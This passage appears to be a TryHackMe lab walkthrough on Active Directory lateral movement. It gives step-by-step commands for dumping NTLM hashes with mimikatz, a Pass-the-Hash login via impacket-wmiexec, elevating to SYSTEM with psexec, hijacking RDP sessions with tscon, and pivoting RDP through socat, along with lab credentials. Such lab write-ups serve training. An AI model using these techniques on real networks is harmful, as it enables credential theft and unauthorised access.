 * From this session, we will use mimikatz - it's already located on the machine - run the following commands:

```powershell
> powershell
> cd C:\tools
> mimikatz.exe
> privilege::debug
> token::elevate
> sekurlsa::msv
```
* From the output of `mimikatz`, grab the NTLM hash of `t1_toby.beck`
* We will perform a Pass-the-Hash attack
* On the attacking machine - use `impacket` to log in:

```bash
$ impacket-wmiexec -hashes ':533f1bd576caa912bdb9da284bbc60fe' 'za.tryhackme.com/t1_toby.beck@thmiis.za.tryhackme.com'
```

### Task 6

* Get a new set of credentials from `http://distributor.za.tryhackme.com/creds_t2`
* Connect to the machine using the command `xfreerdp /v:thmjmp2.za.tryhackme.com /u:YOUR_USER /p:YOUR_PASSWORD`
* Since we already have `psexec` on the machine, we can open a cmd as administrator and elevate to `NT AUTHORITY` using the command `C:\tools\psexec64.exe -accepteula -s -i cmd.exe`
* From this newly opened cmd we will run `query session` to identify RDP sessions open
* Inside the same `psexec` cmd window we can run the command `tscon 2 /dest:rdp-tcp#105` (replace `#105` with whatever is shown as available) to hijack the rdp session and we will be greeted with the flag.

### Task 7

#### Flag 1

* Log in using SSH and your credentials from `http://distributor.za.tryhackme.com/creds` by using the command:

```bash
$ ssh za\\AD_USERNAME@thmjmp2.za.tryhackme.com
```

* Once logged in use `socat` to forward the RDP port to make it available on `THMJMP2` to connect from the attacker machine (make sure to change 14000 to a different port):

```powershell
> cd C:\tools\socat
> socat TCP4-LISTEN:14000,fork TCP4:THMIIS.za.tryhackme.com:3389
```

* With the listener is set up, connect to `THMIIS` via RDP from your attacker machine by pivoting through your `socat` listener at `THMJMP2` using this command:

```bash
$ xfreerdp /v:THMJMP2.za.tryhackme.com:14000 /u:t1_thomas.moore /p:MyPazzw3rd2020
```
